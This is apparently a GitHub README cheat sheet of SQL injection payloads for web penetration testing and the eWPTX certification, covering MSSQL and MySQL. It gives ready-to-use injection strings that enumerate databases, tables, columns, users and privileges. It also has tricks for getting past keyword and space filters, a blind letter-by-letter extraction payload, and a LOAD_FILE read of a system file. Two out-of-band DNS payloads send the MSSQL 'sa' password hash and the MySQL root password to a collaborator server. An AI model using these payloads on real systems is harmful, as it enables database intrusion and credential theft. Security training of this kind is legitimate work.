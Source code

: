 # eWPTX
List of useful commands for web penetration testing and eWPTX certification

## XSS
coming soon

## SQLi

### MSSQL

**List version name**

```
SELECT @@VERSION;-- -
```

**List database name**

```
SELECT name FROM master..sysdatabases;-- -
```
```
SELECT name FROM sysdatabases;-- -
```

**List the table of a specific database**

```
S = System Table
U = User Table
TT = Table Type
X = Extended Store Procedure
V = Views
```
```
SELECT name FROM mydatabasename..sysobjects WHERE xtype='U';-- -
```
```
SELECT table_name FROM mydatabasename.INFORMATION_SCHEMA.TABLES WHERE table_type='BASE TABLE';-- -
```

**List all tables and views of the current database**

```
SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_type='BASE TABLE';-- -
```

**List the columns of a specific table**

```
SELECT column_name FROM mydatabasename.INFORMATION_SCHEMA.columns WHERE table_name = '';-- -
```

**List the columns of tables, views and clusters accessible to the current user**

```
SELECT column_name FROM SYS.ALL_TAB_COLUMNS;-- -
```
```
SELECT column_name FROM ALL_TAB_COLUMNS;-- -
```

**List the current user**

```
SELECT loginame FROM SYSPROCESSES WHERE spid = @@SPID;-- -
```

**List all users**

```
SELECT name FROM SYSLOGINS;-- -
```

**List users' privilegs**
The possibile roles are
```
sysadmin
serveradmin
dbcreator
setupadmin
bulkadmin
securityadmin
diskadmin
public
processadmin
```
```
SELECT IS_SRVROLEMEMBER('processadmin', 'myusername');-- -
```
If no username is supplied as an argument, it is the currentuser

**Provoke DNS request**

```
Two alternatives are XP_DIRTREE and XP_SUBDIRS
```
```
EXEC MASTER..XP_FILEEXIST 'C:\Windows\System32\drivers\etc\hosts';-- -
```
```
DECLARE @host varchar(1024);

SELECT @host=(SELECT TOP 1 MASTER.DBO.FN_VARBINTOHEXSTR(password_hash)
FROM SYS.SQL_LOGINS WHERE name='sa') + '.mycollaboratorserver';

EXEC('MASTER..XP_FILEEXIST "\\'+@host+'"');
```

### Oracle
cooming soon

### MySQL

**List database name**

```
SELECT DATABASE();-- -
```

**List the table of a specific database**

```
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = '';-- -
```

**List the table of a specific database with limit and offset**

```
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = '' LIMIT 1 OFFSET N;-- -
```

**List the columns of a specific table and database**

```
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = '' AND table_name = '';-- -
```

**List the nth column of a specific table**

```
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = '' AND table_name = '' AND ORDINAL_POSITION = N;-- -
```

**Concat query elements when spaces are not allowed**

```
SELECT/**/DATABASE();-- -
```

**Concat query elements when spaces AND comments are not allowed***

```
(SELECT(group_concat(table_name))FROM(INFORMATION_SCHEMA.tables)WHERE(table_schema=database()));-- -
```

**Basic camel case filter evasion**

```
SeLEcT gROup_cOnCaT(TabLE_NamE) FroM InfOrmaTioN_SchEma.TabLeS WhERe tABle_scHEmA =lower('');-- -
```

**Basic evasion if WHERE statement is not allowed**

```
SELECT * FROM GROUP BY HAVING ID=1;-- -
```

**Filter evasion where SQL keywords are not allowed**

```
sZEROFILLeZEROFILLlZEROFILLeZEROFILLcZEROFILLt tZEROFILLaZEROFILLbZEROFILLlZEROFILLe_nZEROFILLaZEROFILLmZEROFILLe fZEROFILLrZEROFILLoZEROFILLm iZEROFILLnZEROFILLfZEROFILLoZEROFILLrZEROFILLmZEROFILLaZEROFILLtZEROFILLiZEROFILLoZEROFILLn_sZEROFILLcZEROFILLhZEROFILLeZEROFILLmZEROFILLa.tZEROFILLaZEROFILLbZEROFILLlZEROFILLeZEROFILLs wZEROFILLhZEROFILLeZEROFILLrZEROFILLe tZEROFILLaZEROFILLbZEROFILLlZEROFILLe_sZEROFILLcZEROFILLhZEROFILLeZEROFILLmZEROFILLa = '';-- -
```

**Letter by letter database enumeration**

```
a' RLIKE (SELECT (
	CASE WHEN(
		ORD( /* string to ASCII conversion /*
			SUBSTRING( /* string, starting index, ending index */
			(
				SELECT IFNULL(CAST(table_name AS NCHAR),0x20)
				FROM INFORMATION_SCHEMA.TABLES
				WHERE table_schema=0x696e666f726d6174696f6e5f736368656d61 LIMIT 2,1
			)
		,11,1)
	)>64 /* check if the ASCII value of a specified letter is bigger than a specified value */
)
THEN 0x61 ELSE 0x28 END))
```

**Read system files (Windows only)**

```
SELECT LOAD_FILE("C:\\Windows\\System32\\drivers\\etc\\hosts");-- -
```

**Provoke DNS request (Windows only)**

```
SELECT LOAD_FILE(CONCAT('\\\\', 'SELECT password FROM mysql.users WHERE user=\'root\'', '.mycollaboratorserver'));-- -
```

**Other tips**
* Encode query in base64
* Double-encode query in base64
* Use HEX conversion 

## XXE
coming soon
